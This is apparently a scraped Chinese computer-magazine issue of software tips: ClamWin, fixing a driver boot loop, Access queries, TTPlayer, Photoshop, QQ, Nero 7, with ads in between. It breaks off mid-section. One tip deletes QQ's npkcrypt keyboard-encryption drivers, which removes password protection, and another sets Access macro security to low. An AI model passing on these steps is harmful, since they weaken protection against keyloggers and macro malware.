杀毒软件之间竞争越来越激烈，很多杀毒软件厂商都在暗自较量，而在众多杀毒软件中，能做到免费的却没有几个。今天我们就为大家推荐一款不错的免费杀毒软件——ClamWin。ClamWin与其他杀毒软件一样具有防火墙、病毒库定期升级等特点。当然作为一款开源免费软件也有一些独特功能，比如当发现病毒后，通过Email报警，可以扫描ZIP等压缩文档。最重要的是这款软件还能轻松装到光盘/闪存盘中，方便你随身携带。

### 1.软件的安装与升级

从http://www.clamwin.com/index.php?option=content&task=view&id=40&Itemid=25下载ClamWin，安装并运行后，右击系统托盘图标，选择“Download Virus Database Update”(升级病毒库)项，稍候就会完成升级。如果出现诸如“Update failed. Your network may be down or none of the mirrors listed in freshclam.conf is working”(升级失败，网络出错，重新配置服务器)的错误，可以使用FlashGet等下载工具从http://database.clamav.net/main.cvd及http://database.clamav.net/daily.cvd下载病毒库文件，然后将其保存至C:\Documents and Settings\用户名\.clamwin\db(安装时针对单用户)或C:\Documents and Settings\All Users\.clamwin\db(安装时针对所有用户)目录下，这样就能使用了。

### 2.软件的高级设置

ClamWin的特殊之处在于它提供了一些特别的小功能。

- 设置压缩文档扫描：右击系统托盘图标，选择“Configure ClamWin”(配置ClamWin)，在弹出的“ClamWin Preferences”(ClamWin参数选择)窗口中点击“Archives”(档案)标签，确认“Scan In Archives”已经勾选，根据需要勾选三项，分别是，“Do Not Scan Archives Larger Than [ ] MegaBytes”(不扫描超过[ ]MB的压缩文件)、“Do Not Extract More Than [ ] Files”(解压缩最多[ ]个文件)及“Do Not Extract More Than [ ] Sub-Archives”(解压缩最多[ ]层文件夹)，如图1所示。

- 设置文件过滤：同样打开“ClamWin Preferences”窗口，在“Filters”(过滤)标签下，可以按如图2所示进行设置。

- 设置Email报警：同样打开“ClamWin Preferences”窗口，在“Email Alerts”(Email报警)标签下按照如图3所示进行设置。







### 3.将ClamWin移植到光盘/闪存盘中

- 第一步:在C盘根目录建立ClamWin-CD文件夹，在其下建立ClamWin子文件夹。
- 第二步:复制ClamWin安装文件夹下的文件及文件夹全部复制至C:\ClamWin-CD\ClamWin子文件夹下。
- 第三步:在C:\ClamWin-CD\ClamWin文件夹下新建log、db及quarantine三个文件夹。
- 第四步:从C:\Documents and Settings\用户名\.clamwin\db(安装时针对单用户)或C:\Documents and Settings\All Users\.clamwin\db\(安装时针对所有用户)目录下的病毒库文件main.cvd及daily.cvd复制到C:\ClamWin-CD\ClamWin\db下。
- 第五步:从http://www.phillipsuk.org/howto/clamwin.conf下载配置文件，将其复制至C:\ClamWin-CD\ClamWin\bin下，复制同名文件。

现在将C:\ClamWin-CD目录下的所有内容复制到光盘/闪存盘的根目录下就可以使用了。要注意刻入光盘后，杀毒软件无法使用隔离病毒功能，病毒库无法升级，参数不能修改。

## 手工解决由实名软件造成的系统崩溃问题

近日，瑞星客户服务中心接到许多用户求助，称Windows XP出现莫名其妙的崩溃现象。用户关闭电脑后，再次开机无法正常启动Windows XP。无论选择正常模式还是安全模式，电脑均会自动重启，循环反复。经过瑞星公司反病毒工程师对问题的跟踪，发现这是由于某一实名软件遭到异常破坏所致。该实名软件加载了一个文件名为CnsMinKP.sys的驱动程序，并对其进行保护。当电脑启动时，该驱动程序即被加载，即使在安全模式下，它也会自动运行。

由于一些未知原因，导致该实名软件所需的数据库文件CNS.DAT文件丢失，从而使该驱动程序加载出现问题。引起电脑无法进入系统，并循环重启。瑞星专家提醒用户出现这个症状不是病毒引起的，不必惊慌。可以采用下面方法修复。

- 1. 如果电脑安装有多个操作系统，可登录到正常系统上，删除有问题系统目录中（默认为C:\Windows\System32）的CnsMinKP.sys文件即可。
- 2. 如果只有一个操作系统，可以使用瑞星杀毒软件的安装光盘启动电脑，删除掉系统目录下的CnsMinKP.sys文件。
- 3. 如果你手头有Windows XP的安装光盘，可以直接使用该光盘启动电脑，在出现安装界面中，按R，登录到恢复控制台进行修复。登录控制台后也可直接删除该文件，或键入“Disable CnsMin”命令禁用掉该软件的服务。

> （瑞星工程师 史旭）

## 用数据库技术打造个人任务管理器(2)

虽然我们已经有了一个不错的个人任务管理器了，但功能稍嫌简陋，好像只是一个比较智能的电子表格而已。实际上，数据库与电子表格最大的区别便在于强大的查询功能，没有查询功能的数据库，好比虎落平阳雄鹰折翅，没有多少技术含量了。所以，善加利用数据库的查询功能，可以实现许多匪夷所思的功能。

## 今日任务

随着时间推移，任务表中记录会越来越多，要查询今后还有什么任务可以去做，或者还有哪些事情没有完成会显得越来越麻烦。借助数据库强大的查询功能，可以轻松把今天需要完成的任务搜索出来，以便今日事今日毕，帮助我们培养良好的个人习惯。

在Access中，新建一个查询就像对数据库提了一个问题，每次进行查询，Access便会从数据库中搜索出满意的答案。

## 小提示

如果觉得比较麻烦，在确保电脑安全的前提下，可以依次点击“工具→宏→安全性”菜单项，把安全级调整为“低”即可。

第二步：选择数据库管理器左侧的“查询”项，点击“新建”菜单，选择默认的“设计视图”并确定，便可以打开查询设计器了。由于查询今日任务，我们只需要“任务”表，所以在“显示表”对话框添加“任务”表之后便可以关闭了。

第三步：在“选择查询”对话框中，把需要显示的字段拖到下面的表格中，然后按照如图1所示设置条件和排序。



选择查询的意思就是向数据库提出一个问题，问题的表述形式大致可以这样描述：从某某表中选择某某字段，其中某某字段应该满足某某属性。比如查询今日任务，当然需要从任务表中搜索，需要显示标题、内容、完成等字段。特别地，完成字段的值应该是False，也就是尚未完成的事项，同时，计划结束日期应该是在明天之前，这里使用了Access提供的内置函数Date()求出今天，小于Date()+1就是表示明天之前了。此外，我们还在重要度的排序栏中选择了升序，这样便可以把最重要的任务列在最前头了。

第四步：把这个查询保存为“今日任务”并关闭“选择查询”对话框，这时数据库管理器的“查询”项便会多出一个名为“今日任务”的查询了。双击一下，是不是把今天没有完成的任务查询出来了呢（见图2）？



聪明的你，是否能够举一反三，制作一个“今后任务”的查询呢？请下载文末所附的数据库，对照一下你的答案吧。

## 统计

数据库查询功能远不止此。下面看看数据库的合计功能的应用。

到了月末，很自然想总结一下本月到底做了些什么以便温故知新，所以，让我们完成一个统计功能，看看这个月在每个主题上一共做了多少事情。

仍然新建一个查询，不过这次在“显示表”对话框需要同时添加“任务”表和“主题”表，然后点击“视图”菜单上的“总计”项，按照如图3所示进行设计。



这个查询的意思是，结果需要返回两列，其中第一列是求出任务编号的总数，第二列是该总数所对应的主题，并且，计算总数的分组依据是主题。这样，选择“视图”菜单上的“数据表视图”之后，便可以看到如图4所示的结果。原来，这个月一共四个任务，都花在玩上。



## 添加欢迎屏幕

每次打开个人任务管理显示的都是Access的欢迎屏幕，是不是太老土了？实际上，只要准备一张与数据库文件同名的BMP图片，比如“个人任务管理.BMP”，并且放在与数据库文件相同的目录中，这样每次打开数据库，便会以这个BMP文件作为欢迎屏幕了。

## 背后的秘密

授人以鱼，三餐之需；授人以渔，终生之用。既然制作了这个个人任务管理器，应该透过表面看本质，以便在完成这个教程后，你能够根据自己的需要继续发展这个数据库，以便为自己量身订做。

在这一切繁华和简练的背后，数据库查询实际上都是由数据库查询语言——结构化查询语言(Structured Query Language，SQL)语言实现的。SQL是现代数据库构架的基石之一，通行于各种数据库管理系统，无论Access、Oracle还是DB2，都支持最基本的ANSI SQL，此外还有不同程度的扩展。可以说，学习数据库技术，最本质的还是SQL语言。

比如，打开“今日任务”，选择“视图”菜单上的“SQL视图”，便可以发现真正的SQL语句：SELECT 任务.标题，任务.内容，任务.结束日期，任务.完成，任务.重要度，任务.主题 FROM 任务 WHERE (((任务.结束日期)>Date()) AND ((任务.完成)=False)) ORDER BY 任务.结束日期，任务.重要度; 这句SQL使用了SELECT查询语句指定需要显示的字段，用FROM指定数据来源，用WHERE指出对字段的约束，用ORDER BY指定排序的依据。此外，你还可以参考“统计”查询的SQL语句，试着理解一下。由于SQL语言是一个比较大的话题，无法在文章内详述，请有兴趣的朋友参考教科书或者网上的教程。总之，Access许多向导以及设计器，无非是一种方便设计SQL的方式，它并不适用于所有的数据库管理系统，SQL语言才是核心和本质，学习数据库技术，熟练掌握SQL语言是重中之重。

## 小结

通过本文，我们了解了数据库的查询功能，并且在任务管理器之上加入了两个有用的查询，方便了使用。如果你对数据库技术有了一些兴趣，不妨继续深入学习SQL Server、DB2或者Oracle，甚至获取专业的数据库认证，这样对今后的职业发展将有着巨大的益处。

文中设计的数据库文件可以http://www.cfan.com.cn/t1program/200522/todomanager.zip下载。

## 金山毒霸2006 Kingsoft Internet Security 2006

## 杀毒套装

- 上网安全专家
- 主动实时升级
- 防杀间谍
- 隐私保护

## 金山词霸2006专业版

## 金山快译2006专业版

可扩充的中日英海量词典

更智能的中日英快速翻译专家

**现在购买更有机会赢取数码免费游**

详情访问：[db.kingsoft.com](http://db.kingsoft.com)


## 数码照片精彩重现

图像处理、网页制作、平面设计的全能数码制作软件，家庭及个人数码图片处理的专业助手！

- 增强图像编修功能：快速修片工具、提供整体曝光、主题曝光、色偏、色彩饱和、焦距与美化皮肤等六大模块，可快速改善图像至极佳效果
- 完美相片修复工具：修去脸部的雀斑、黑痣、鱼尾纹、皱纹、疤痕等，轻松呈现肤质好气色
- 独有智能HDR工具：全区域智能曝光合成器，不同曝光值照片自动进行优化影像合成，让照片效果专业细致
- 网页制作与绘图设计功能：轻松做出互动式的Java网页与多种花样的2D与3D路径对象


建议零售价：¥199.00元

## PhotoImpact®10

## 易用的图像处理软件NO.1

## 增强的数码照片处理功能

## 友立动感素材系列

动感素材系列总代理 北京连邦软件股份有限公司


## 动画先锋：

四大类，1000多张动画素材，配合会声会影9使用，可做成绚丽的片头、片尾、画框效果以及精彩的Flash插画！

零售价格：¥99元


## 框饰插画：

600多张边框、插画素材，适合制作影片装饰、电子相册、家庭电影等...让影片趣味十足！

零售价格：¥99元



## 设计师：

收录了大量PSD格式的分层图片，精彩细致，图样新颖，可便利搭配。

零售价格：¥199元



## 行业综合：

提供各行业专用的不同以往的设计素材及多图层编辑与单图创意元素的完美结合。

零售价格：¥199元

北京友立创新科技有限公司
地址：北京市海淀区知春路56号中海实业大厦7层
电话：+86-10-82112277 网址：www.ulead.com.cn

友立会声会影9、PhotoImpact10软件总代理：
北京连邦软件股份有限公司
北京：010-64421199 上海：021-63201984

广州：020-61177556 成都：028-68107861
沈阳：024-23921186 西安：029-85538903
武汉：027-8766102## 聆听天籁之音，我用千千静听

小蔡新买了一台电脑，甭提有多高兴了，一有时间就鼓捣它。如果遇到什么不明白的问题，她就会不厌其烦地来问我，这不，她又过来了。

小蔡：大夏，我想听歌，用哪款播放软件比较好啊？

大夏：当然要用国产免费软件——千千静听了。

小蔡：我听说播放软件有很多啊，像MediaPlayer、Winamp什么的，为什么要用它呢？

大夏：呵呵，几天不见，知道的软件倒不少啊。其实千千静听的播放音质不一定比得上你上面说的那些软件，但它小巧玲珑，启动速度非常快，占用系统资源少，播放音频格式非常全面。而且在联网状态下，它还能自动下载歌词并同步显示，非常酷。除此之外，它还有许多意想不到的应用呢。

小蔡：啊，这么好啊，那快教教我吧，中午请你吃饭。

### 千千静听小档案

- 软件版本: 4.6
- 软件大小: 1.91MB
- 软件性质: 免费软件
- 适用平台: Win9x/Me/2000/XP/2003
- 下载地址: http://ttplayer.com/ttsetup.exe

### 实例 1：第一次亲密接触

双击下载所得ttsetup.exe文件，再按提示一步一步操作即可将千千静听安装到电脑中。安装过程中，在切换到“选择组件”界面时，最好选中所有组件，即点击各项使其前面显示为对钩号。至于“附加任务”界面中的在桌面放置eBay易趣项，以及最后完成界面中的安装百度超级搜霸项，你可以根据自己需要取舍，建议不要选择这两项，最后单击“完成”按钮结束即可。下面就来试试用千千静听欣赏音乐吧。

### 充电站

自定义快捷键，播放控制更方便

在实例1中提到了好几个快捷键，其实听歌时，如果不方便使用鼠标操作，或觉得用鼠标操作太慢，可以通过快捷键来完成所有播放操作。

单击主界面左上角的系统按钮图标打开主菜单，选择“千千选项”命令打开选项窗口，单击左侧“快捷键”项，此时会看到各种操作的快捷键，快捷键分为局部快捷键和全局键，单击选中“启用全局快捷键”项，这样即使正在操作别的软件，也可以通过全局键对千千静听进行控制(实例1中提到的都是局部快捷键，只有当千千静听为当前窗口时才有效)，点选某一命令项，然后在“快捷键”(局部)或“全局键”方框内点击一下，再按下键盘上相应按键即可将其设置成快捷键了(注意：全局键和大部分局部快捷键都必须是组合键，也就是要加上Alt或Ctrl或Alt+Ctrl键)，最后单击“设置”使其生效，选择“全部保存”并关闭对话框。记住一些常用的快捷键，会让我们听歌更方便。

- 第一步：启动千千静听(见图1)，单击“播放文件”按钮(快捷键为Ctrl + O)，在打开对话框中选择要听的音乐文件，如果是一次打开多首歌曲，可按住Ctrl键不放再分别点击选中，最后单击“打开”按钮即可将选中的文件添加到播放列表中，并自动开始顺序播放。



- 第二步：在播放器主界面上有多个按钮可以控制音乐播放，比如“暂停”按钮(快捷键为F5)等。如果双击“播放列表”中的某一首歌曲，则可以直接跳转到该首歌曲开始播放；在“均衡器”面板上右击，从右键菜单的“可选类别”子菜单中，可以为当前播放的歌曲选择不同的风格，如：流行、摇滚等；单击主界面上方“歌词秀”、“均衡器”、“播放列表”按钮可打开或关闭相应功能面板。

- 第三步：单击“迷你模式”按钮，播放器会以工具条形式显示在屏幕上，此时只会保留基本的控制功能和歌词秀面板，尽可能节约宝贵的屏幕空间，如果想还原到完整模式的话，单击工具条上的“还原”按钮即可(快捷键为Ctrl + M)。

### 小提示

在使用过程中，笔者意外地发现，除可以播放几十种音频文件外，还能直接播放视频文件中的声音，如：RM、WMV、MPG、AVI等。

### 实例 2：卡拉OK轻松唱

大夏：千千静听最大的特色就是可以自动下载并显示歌词。看似简单的歌词秀，里面也有不少学问呢。比如：歌词和歌曲不太同步，怎么办呢？怎样修改歌词的颜色大小呢？如何实现卡拉OK功能呢？

### 充电站

寻寻觅觅找歌词

千千静听的歌词服务器上有上万首歌词，一般的歌曲都能找到匹配的歌词，如果某首歌曲没能自动下载并显示歌词，这有可能是歌曲的文件信息有误，所以不能找到歌词或找到了错误的歌词，此时可按下面的方法解决：

在“歌词秀”窗口内右击并选择“在线搜索”命令打开搜索对话框，按提示分别输入歌手名和歌名，然后单击“搜索”按钮，一般就会出现相应的歌词文件，有时还可能会出现多个版本，点选相应版本，并选中“下载后与歌曲文件进行关联”项后再单击“下载”即可。

打开千千选项窗口，在“歌词搜索”中还能对歌词搜索进行更详细的设置。默认情况下，下载的歌词保存在“X:\Program Files\TTPlayer\Lyrics\”(X表示你的软件安装盘符)文件夹中，在这里也可以保存到自定义文件夹中，从而避免重装系统后再次下载歌词。

- 第一步：在线情况下，千千静听会自动检测正在播放的歌曲在网上是否有匹配的歌词，如果有则会弹出如图(未命名.bmp)所示对话框，选中“以后请选择最佳匹配后自动下载”及“下载后自动与歌曲进行关联”项，以后千千静听就会自动下载并匹配歌词了。

- 第二步：在“歌词秀”窗口标题条上右击，会弹出一个右键菜单，其中有一个“歌词秀”子菜单，控制歌词的大多数命令都在这里。如果发现歌词与歌曲不同步，可以选择“歌词秀→调整歌词”子菜单下的六个命令来向前或向后调节歌词，当一句歌词显示得快了就选择“本句延后0.5秒”，所有的歌词都显示慢了就选择“全部提前0.5秒”，这些命令可以多次重复使用。

- 第三步：默认情况下，歌词是上下滚动显示，你可以选择“歌词秀→显示方式”下的“水平滚动”，就能让歌词由左至右流动显示了。选择“歌词秀→内嵌歌词”下的“嵌入到音频文件”，则可以让歌词和歌曲捆绑在一起，这样当歌曲拷贝到其他电脑上时，可以直接从音频文件中读取歌词，而不需要重新下载。

- 第四步：在“歌词秀→显示方式”子菜单下还有一个非常有意思的选项：卡拉OK方式。如果选中了该项，则歌词会随着歌曲的节奏一个字一个字改变颜色，跟平时唱卡拉OK时的感觉一样！

- 第五步：拖动歌词秀窗口中的歌词，歌曲就会从歌曲相应的位置播放，非常方便。另外，在千千静听的选项窗口中，选择左侧的“歌词秀”项，即可在右侧对歌词进行更加详细的设置，如：歌词的字体颜色等，大家一看便知。

### 实例 3：玩转播放列表，打造个性专辑

小蔡：我喜欢听一些流行歌曲，我老爸喜欢听五六十年代的老歌，而老妈比较喜欢听一些钢琴曲。每次我听完歌曲后，他们就得重新打开自己喜欢的音乐，反之，他们听过之后我再听时，又要重新打开自己喜欢的流行歌曲。有什么办法可以避免这种重复操作吗？

大夏：你说的问题可以通过播放列表来解决，通过它为每个人打造一个个性化的专辑，一次点击即可播放每个人想要听的歌曲了。

- 第一步：单击“播放列表”窗口上的“列表”按钮(见图2)，在下拉菜单中选择“新建列表”，然后直接输入列表名称，如：我的最爱。以同样方法可以建立多个播放列表，如：“经典老歌”、“钢琴名曲”等。



- 第二步：点选新建的“我的最爱”列表，然后单击“添加”按钮(即绿色的“+”号图标)，在下拉菜单中选择“文件”命令，在打开的对话框中选择相应的歌曲文件(按Ctrl键不放并用鼠标点击，可以同时选中多首歌曲)，最后单击“打开”就可以将所选文件添加到播放列表中了。当需要在列表中添加新的歌曲时，重复这一步操作即可。如果想删除列表中的某一首歌曲，可右击该歌曲，再从右键菜单中选择“删除”命令，或者单击“删除”按钮(即红叉图标)后再选择相应的删除操作。以同样方法，可以创建和编辑其他播放列表，为它们添加不同的歌曲。这样，就能方便地为每个人打造专属的个性化专辑了。

- 第三步：以后不管谁想要听音乐，只要在播放列表左侧双击属于自己的专辑的名称，即可自动播放该列表中音乐了。如果想重复欣赏列表中的某一首歌曲，可以单击选中该歌曲，然后单击“模式”按钮(最右侧的那个)，从下拉菜单中选择“单曲重复”命令即可。在“模式”下拉菜单中选择“循环播放”，则可以重复播放该列表中的所有歌曲。

### 充电站

每天都有新感觉

现在比较流行的“换肤”功能，千千静听在这方面也做得不错，很多热心的网友制作了大量的皮肤供我们选择，这里推荐一个皮肤包——千千静听200款皮肤(http://ttplayer.com/res/TTPlayerSkin200.rar)。

将压缩包中文件解压到安装目录中的Skin文件夹中，文件扩展名都是Skn。启动千千静听，打开选项窗口，单击左侧“皮肤”项即可看到刚才安装的皮肤都在这里了，单击某种皮肤，在预览窗口中会显示其样式，如果满意，单击“应用”按钮即可；另外单击左上角系统图标，在主菜单下的“选择皮肤”子菜单中也可以选择所需的皮肤。

如果想知道这些美丽的“外衣”是怎样“缝制”的，可以到千千静听的官方论坛学习一下，网址：http://www.liuxuan.com/leadbbs/Announce/Announce.asp?BoardID=502&ID=287259，学成之后用MM的照片制作成千千静听的界面，相信她一定会很开心的。

### 实例 4：免费的生活小秘书

小蔡：我喜欢听着音乐睡觉，千千静听能不能在指定时间自动关闭电脑呢？

大夏：打开选项窗口，切换到“常规”选项，勾选“自动关闭计算机”，然后在后面输入关机时间，这里采用的是24时计时法，格式为“时:分:秒”，如“23:30:00”，就是夜里十一点半关机，你可以在上床前设置一下自动关机的时间，然后就让天籁之音伴你进入梦乡吧。

### 实例 5：给耳朵高品位的享受

小蔡：你开始的时候说过，千千静听在音质方面稍有欠缺，有没有什么方法弥补一下？

大夏：使用DFX插件可以明显提升音质，这原本是一款专门为Winamp开发的音效插件，不过在千千静听中同样适用，而且效果很棒。

- 第一步：首先到 http://www.onlinedown.net/soft/17599.htm 下载DFX 7.502 for Winamp 汉化版，然后双击安装，在选择安装位置时，将安装文件夹设置为 X:\Program Files\TTPlayer\AddIn(X表示你安装千千静听所在的盘符，下同)，再单击“安装”即可。

- 第二步：打开选项窗口，单击“音效插件”选项，单击“插件目录”旁边的按钮，设置插件目录为 X:\Program Files\TTPlayer\AddIn\Winamp\Plugins\，此时下方的列表中自动增加DFX选项，勾选该项即会出现DFX面板(见图3)，此时你会明显感觉到音效有了质的变化。



### 小提示

笔者在千千静听论坛上还看到了不少音频插件包，使用方法和上面差不多，使用它们除可以提升音质外，还能增加软件的播放支持格式，感兴趣的朋友可以到 http://www.liuxuan.com/leadbs/Announce/Announce.asp?BoardID=502&ID=427408 一游。

### 实例 6：兼职音频格式魔法师

小蔡：我收藏了好多经典CD，能告诉我如何把它们转换成MP3保存在硬盘中吗？

大夏：千千静听不但能播放音乐，还可以将播放的音乐文件转换成不同音频格式。在播放列表中右击某首歌曲，选择“转换格式”，在弹出对话框中选择转换的格式并进行其他相应设置，最后单击“立即转换”即可。同样方法，也可以将CD上的歌曲转换成MP3保存到电脑上。

- 第一步：在千千静听中，单击主界面“播放文件”按钮打开CD光盘中的歌曲。CD光盘中的歌曲的文件名一般是按序号排列的，如Track01.cda、Track02.cda……，这和光盘封面上的歌曲名正好一一对应，打开需要的歌曲后它会自动添加到播放列表中，双击歌曲即可播放。

- 第二步：选中播放列表中要抓取的CD曲目，如果是多首歌曲可以按住Ctrl键选择(注意，此时最好停止播放，否则可能会不成功)。接着右击所选歌曲，从右键菜单中选择“转换格式”，在弹出的对话框中；单击“输出格式”列表选择需要的格式，这里选择“MP3编码器”，设置好保存文件夹，最后单击“立即转换”按钮就可以了(见图4)。


### 小提示

千千静听的输出格式是由系统中安装的编码器决定的，比如安装了Nero 6.0，软件会自动增加AAC格式，安装了Media Player就会增加WMV格式，通过增加插件可以支持更多格式的播放和转换。

（周建峰）

## 制作陈旧壁画 触摸历史印迹

名胜古迹中常常会看到墙面上保留下来的古色古香的壁画，它们让现代人有机会触摸到厚重的历史。今天，就让我们在Photoshop中模拟出一幅“陈旧壁画”的效果。(本文所涉及素材及彩色效果图，可从 http://www.newhua.com/cfan/200522/bihua.rar 处下载)

- 第一步：首先按 Ctrl + N 组合键新建一个文件，本例设置图像宽度为950像素，高度为600像素，分辨率为300像素/英寸(大家可根据自己的需要设置图像大小)。

- 第二步：新建一图层，将前景色设置为黄色(本例为R:250, G:189, B:117)，背景色设置为深黄色(本例为R:173, G:108, B:20)。选择新建的图层(即“图层1”)，然后执行“滤镜→渲染→云彩”菜单命令，得到如图1所示的云彩效果。



- 第三步：执行“滤镜→纹理→纹理化”调出纹理化滤镜对话框(CS或CS2版本调出的是滤镜组，参数选项都差不多)，将“纹理”设置为“砖形”，“缩放”设置为200%，“凸现”设置为10，“光照方向”为“左上”。确定后便会得到一个“砖墙”图像。

- 第四步：单击图层调板下方的“创建新的填充或调整图层”按钮(即黑白两个半圆的图标)，从弹出菜单中选择“色相/饱和度”命令，其设置如图2所示，最后单击“好”按钮返回。



- 第五步：再次单击图层调板下方的“创建新的填充或调整图层”按钮，这次选择“曲线”命令，其调整如图3所示。确定后将得到斑驳陈旧的墙面效果。

- 第六步：打开一幅风景图片，使用移动工具将风景图片拖到上面创建的砖墙图片上，将得到“图层2”，单击该图层左侧的眼睛图标，暂且隐藏该层。然后选择“图层1”，单击魔棒工具，按住 Shift 键不放并连续点击砖块(尽量选中大部分砖块)，将得到一个不规则的选区。

- 第七步：单击“图层2”左侧的灰框，使其出现眼睛图标，该图层的图像也显示出来。选中“图层2”，在图层调板下面单击“添加图层蒙版”按钮，为“图层2”添加蒙版，即可得到图4所示的效果了。





最后，还可以在图层调板下方，单击“创建新的填充或调整图层”按钮，并选择“曲线”项来调整一下“图层2”蒙版的亮度，使得效果更加真实，另外还可以右击“图层2”缩略图，选择“混合选项”，尝试一下“正片叠底”的混合效果。

（江苏 郑文杰）

## 让诺顿天天升级

诺顿杀毒软件是很多公司在使用的杀毒软件，虽然好用，但是默认的LiveUpdate并不是每天都自动更新的，不过在诺顿的FTP上，病毒库可是天天更新的。因此可利用脚本功能让诺顿天天升级：先从 http://www.newhua.com/cfan/200522/nd.rar 下载到自动升级脚本，解压缩后得到 nd.vbs，将它加入计划任务，就能每天升级病毒文件了。

（零度冰点）

## 在QQ2005正式版中使用中文密码

当腾讯推出QQ2005正式版后，我第一时间进行了下载，但在使用过程当中发现一个问题，就是无法输入中文密码，因为QQ2005正式版启动了键盘加密技术，屏蔽了粘贴快捷键，所以无法直接输入中文密码。于是笔者只好回到QQ2005 Bate2版中先将中文密码改成英文的，这样才顺利登录QQ2005正式版。

虽然可以登录了，但无法使用中文密码一直是我比较困惑的一个问题。经过寻找，终于找到了方法：只要将 QQ 目录下的 npkcrypt.sys、npkcrypt.vxd 和 npkcusb.sys 三个文件删除掉，即可解除密码框不能使用粘贴键的限制了。

经过我一段时间测试，删除文件后，并未发现QQ出现异常现象，只是原来的密码保护功能消失了。

（小新）

## 简单几步炫亮你的网上家园

现在有不少人都在网上安了“家”，拥有个人主页或博客已是轻松平常的事情了。如何为自己的个人主页或博客网志增加一些别样的情调呢？适当添加一些点缀和装饰是一个不错的办法。今天笔者就给大家介绍两个在线工具，能让你制作出与众不同的立体装饰图像以及彩色文字，让它们来炫亮你的网上家园。

### 实例1：平面图像轻松变三维立体

- 第一步：首先要准备好一些图像素材，既可以随时从网上搜索，也可以自己制作一些，还有一个更简单的方法，就是在Windows画笔里信手涂鸦，一幅“大作”即可很快完成。不过，本例借用的是笔者QQ里已有的自定义表情图像，这就更加省事了。QQ自定义表情图像文件，一般保存在QQ安装目录下你的QQ号码文件夹下的“CustomFace”文件夹中。



- 第二步：登录到http://www.chami.com/html-kit/services/imge/，这是一个在线立体图像制作工具。如图1所示，有8种3D风格可选，每种风格都有图示，非常明了。选择自己喜欢的一种风格，比如本例，笔者点击的是“Cube”（立方体）链接，进入下一个页面。

- 第三步：如图2所示，制作立体图像分三个步骤：（1）选择图像效果，其实上面点击“Cube”链接时就已经选择了，不过在这里还可以单击Image Effect（图像效果）右侧下拉按钮进行改变。（2）选择图像并设置大小，单击Select Image右侧的“浏览”按钮在本机上选择前面准备好的图像素材文件，本例选择的是笔者QQ自定义表情中的“猪头”图像（注意：图像大小不能超过300K）。接着在下面两个文本框中设置生成图像的大小，本例设置宽（Width）和高（Height）都为100像素，你可以根据自己的需要设置。（3）单击“Send to the Image Embellisher”（发送到“图像修饰”服务器）按钮，稍等一会儿，就会显示出效果预览，下面还会有一个名来“Download”链接，单击链接即可将效果图压缩包（ZIP格式）下载到本机上了。也可以直接右击预览图像，选择“另存为”命令保存。



最后将生成的效果图应用到自己的网页上就可以了。

### 实例2：让文字五彩缤纷

- 第一步：登录http://www.chami.com/tc/，按提示在“Type the text to colorize”（输入要变彩色的文字）框中输入相应文字。

- 第二步：在下面的色彩面板中单击选择一个起始颜色。

- 第三步：选择起始色后，会自动显示出第二个色彩面板，这是用来选择终点颜色的，单击选择即可。此时可以在上面的预览（Preview）框中观看彩色文字在黑白两种背景下的显示效果，如果觉得不满意，可以重新改变起始与终点颜色，直到满意为止（见图3）。



- 第四步：将“Copy and paste the following HTML code to you page”（将下面的HTML代码复制粘贴到页面中）文本框中的代码复制到你的页面文件中就可以得到一个渐变彩色效果的文字了。

### 小提示

因为上例中的在线工具不直接支持中文，所以要想制作彩色中文字，可采取一些变通的方法：将代码粘贴到你的网页代码中后，将英文字母替换成汉字，再将代码中的“face=”Arial””改成“face=”宋体””即可。当然也可以选择其他的中文字体，只要替换“face”后面的字体名即可（见图4）。



```
Preview:
fly2spring
1 Type the text to colorize:
fly2spring
2 Click on a color to start with (current selection: #FF0000):
3 Click on a color to end with (current selection: #00FF00):
4 Copy and paste the following HTML code to your page (345 bytes):
<font size="5" face="Arial">
<font color="#FF0000">f</font><font color="#EE0011">l</font><font color="#DD0022">y</font><font color="#CC0033">2</font><font color="#BB0044">s</font><font color="#AA0055">p</font><font color="#990066">r</font><font color="#880077">i</font><font color="#770088">n</font><font color="#660099">g</font>
</font>
```

## Nero 7，刮起家庭娱乐大风暴

刻录软件之王Nero又推出了7.0新版本。该版本集成了新的引擎，能够支持蓝光刻录机，同时在Nero 7中还集成了近20个应用程序，几乎涵盖了多媒体应用的各个领域：刻录、看图、多媒体播放、视频编辑，CD封面设计等，成了名副其实的媒体中心。今天我们就利用Nero 7中集成的图像与视频工具，刮起一场家庭娱乐的大风暴。注意：本文是以Nero 7 Premium（以下皆简称为Nero）完整版为基础写成的。

### 实例1：自编自导家庭电影

自从我那可爱的女儿“晴晴”来到这个世界后，闲暇之时我总爱拿着DV拍摄女儿的一举一动，久而久之在电脑里存放了她大量的日常生活的视频片段。怎样才能将这些杂乱的视频片段组织到一起，制作成一部家庭电影供亲朋好友欣赏呢？使用Nero中的Nero Vision工具，就可以轻松地实现这一想法。

- 第一步：启动Nero Vision

安装好Nero 7完整版后，单击“开始→程序→Nero 7 Premium→Photo and Video→Nero Vision”启动Nero Vision，单击软件开始界面中的“制作光盘→视频光盘”选项，进入到“目录”面板中。

- 第二步：导入素材

单击目录面板中的“捕获视频”进入视频捕获面板，在此可将连接到电脑上的DV摄像机中的视频导入到当前项目中。如果没有DV，或者已经存放有多个录像片段到电脑中，则可以跳过“捕获视频”选项。平时，我已经将女儿的录像保存在一个单独的文件夹中了，所以在这里直接单击“添加视频文件”项，首先会弹出一个“打开”对话框，按Ctrl键不放并配合鼠标点击，选中多个视频文件后单击“打开”按钮，将它们导入到项目目录列表中。

- 第三步：简单的影片编辑

下面就可以对导入的录像片段进行编辑了。单击“制作电影”选项，进入到电影编辑界面中，编辑界面上方的左侧是“回放窗口”，用来预览制作好的电影；上方右侧是素材管理窗口，用来管理项目中的各种音、视频素材。编辑界面的下方则是编辑工作区，它有“情节串联图板”和“时间线”两种模式，单击其上的选项卡可以在这两种模式之间随意切换。

可以从素材窗口中，直接用鼠标将素材拖放到时间线的相应轨道中，视频素材放到“视频轨道”，音频则放到“音频1”或“音频2”轨道中。如果是在“情节串联图板”模式下操作，则只能将视频素材拖放到编辑区中，此时，每个视频片段被称作一个“视频情节”。如果放置了多个视频素材，则可以通过拖动的方式来任意调整它们在整部电影中的播放顺序。

- 第四步：为影片增加特效

